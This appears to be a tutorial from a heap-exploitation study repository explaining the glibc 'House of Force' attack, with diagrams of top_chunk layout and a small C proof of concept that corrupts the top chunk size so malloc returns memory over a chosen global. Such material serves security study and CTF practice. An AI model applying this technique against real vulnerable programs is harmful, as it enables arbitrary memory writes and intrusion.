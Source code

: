 # House of Force
> LongChampion, 18/03/2020

Finally, I have found an attack that can "break" the top_chunk.

## What is top_chunk?
When your program call first *malloc function*, some kernel function (such as `brk` and `sbrk`) is called to change the `program_break` and give your program a heap segment. In most case, the initial heap segment is much larger than your request size. Because your allocated chunk only mamages the memory belong to it, top_chunk is created to manage the remaining memory of heap segment.  
For example, if you call `malloc(0x100)` and the program heap segment is [0x603000 - 0x624000], then the memory layout will be:
```
    + - - - - - - - - - + - - - - - - - - - - - - - - - - - - - - - - - - - - +
    |    your chunk     |                      top_chunk                      |
    |    size: 0x110    |                    size: 0x20ef0                    |
    + - - - - - - - - - + - - - - - - - - - - - - - - - - - - - - - - - - - - +
    ^                   ^                                                     ^
    |                   |                                                     |
0x603000            0x603110                                              0x624000
```
This is very easy to understand, isn't it? Please remember that although your request size is 0x100, the size of returned chunk is actually 0x110 because of padding and chunk header.  
The top_chunk mechanism is very simple: when you allocate a new (small enoungh) chunk, top_chunk is split into two chunks, ones is returned to you and the remainning becomes the new top_chunk.
```
    + - - - - - - + - - - - - - - - - - - - - - - - - - - - - - - - - - - - - +
    | your chunk  |                         top_chunk                         |
    + - - - - - - + - - - - - + - - - - - - - - - - - - - - - - - - - - - - - +
    | your chunk  | new chunk |                 new top_chunk                 |
    + - - - - - - + - - - - - + - - - - - - - - - - - - - - - - - - - - - - - +

```

## The attack
```c
#include <stdlib.h>

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

char SECRET[] = "This is the top secret!";

int main()
{
    void *first = malloc(0x100 - 8);

    struct Chunk *top_chunk = (struct Chunk *) (first + 0x100 - 0x10);
    top_chunk->size = -1;

    long long padding_size = (long long) &SECRET - 0x10 - (long long) top_chunk;
    void *padding = malloc(padding_size - 8);
    void *REWARD = malloc(0x100 - 8);
}
```
First, we need call `malloc` once to create top_chunk. Then, we overwrite top_chunk's size to a very big value (I use -1). Next, we calculate `padding_size`: the distance between top_chunk and our target chunk. Finally, we call `malloc(padding_size)` to move our top_chunk to target chunk and call `malloc` one more time to complete the attack.

### Note
- "-1 is a very big value?". If you know how computer store integer in memory and chunk size is always consider as unsigned, you will recognize that is really TRUE.
- Our target can be any memory address, but be careful if your target is on the stack or in the segment that don't have write permission. Try to attack on those can crash your program because `malloc` will modify some pointer of top_chunk when moving it and smash your stack frame or violate segment's permission.
- The target chunk is begin at offset 0x10 before target address (this is the reason why we need operand `-0x10` when calculate `padding_size`)
- In some case, the attack can't be perform because `padding_size` is not a valid chunk size (does not divide by 0x10 in x64 system or 0x8 in x86 system)
